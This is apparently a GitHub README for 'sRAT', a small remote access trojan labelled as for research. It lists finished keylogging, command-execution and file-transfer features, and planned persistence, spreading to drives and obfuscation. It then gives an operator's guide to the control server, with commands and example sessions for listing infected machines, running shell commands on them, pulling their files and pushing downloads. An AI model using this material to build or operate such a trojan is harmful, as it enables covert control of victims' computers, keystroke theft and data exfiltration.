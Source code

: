 # sRAT

A small remote access trojan, for research purposes.

## todo list

1. DONE: communication
    1. DONE: server host
    2. DONE: request syntax
2. DONE: features
    1. DONE: command exec
    2. DONE: data transfer
    3. DONE: key logging
3. infection
    1. startup
    2. copy on volumes
4. sneak
    1. obfuscation
    2. encryption

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `feature/yourName/featureName` or `fix/yourName/bugToFix`, and be careful when merging.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

**global server commands**

command        | argument | description
-------------- | -------- | -----------
`help`         |          | display all commands
`exit`         |          | close server
`list`         |          | list all connected clients
`select`       | id       | select a client, given its id. opens a connection.
`unselect`     |          | unselect the client. close the connection.
`log`          | [nRows]  | prints out the log ; if an argument is passed, prints the selected amount of lines.
`save_clients` |          | save clients info to an external file, named `clients`.

**seleted client commands**

command | argument              | description
------- | --------------------- | -----------
`info`  |                       | display all information about the selected client 
`exec`  | command               | make the client execute a given shell command
`upld`  | clientFile serverFile | upload a file from the client to the server
`dwnld` | fileUrl localFile     | make the client download a file given by its url

### select client

#### list all connected clients

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients.

	>list
	id     MAC address         IP Address     OS
	1234   AA-BB-CC-DD-EE-FF   /192.168.1.2   Windows 10
	5678   00-11-22-33-44-55   /192.168.1.3   Windows 7

#### select one client

To selcet a client, use `select ID`. For example,

	>select 1234
	Selected client 1234
	1234*>

It may take up to 10 seconds to connect (the time between two clients ping). Now the prompt should begin as follows:

	Client 1234 connected.
	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take a few seconds, and then the output will be printed. If the client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.
